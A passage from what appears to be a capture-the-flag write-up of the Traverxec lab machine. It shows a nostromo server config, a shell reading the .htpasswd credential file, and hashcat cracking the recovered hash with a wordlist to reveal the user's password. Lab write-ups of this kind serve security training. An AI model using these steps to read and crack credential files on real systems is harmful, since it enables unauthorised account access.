 ```bash
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html


# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid


# SETUID [RECOMMENDED]

user                    www-data


# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd


# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons


# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
www-data@traverxec:/var/nostromo/conf$ cat /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

### Crack htpasswd

```bash
hashcat htpasswd /opt/wordlists/rockyou.txt --user
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Traverxec/loot]
└─$ hashcat htpasswd /opt/wordlists/rockyou.txt --user --show
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

500 | md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5) | Operating System

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me
```
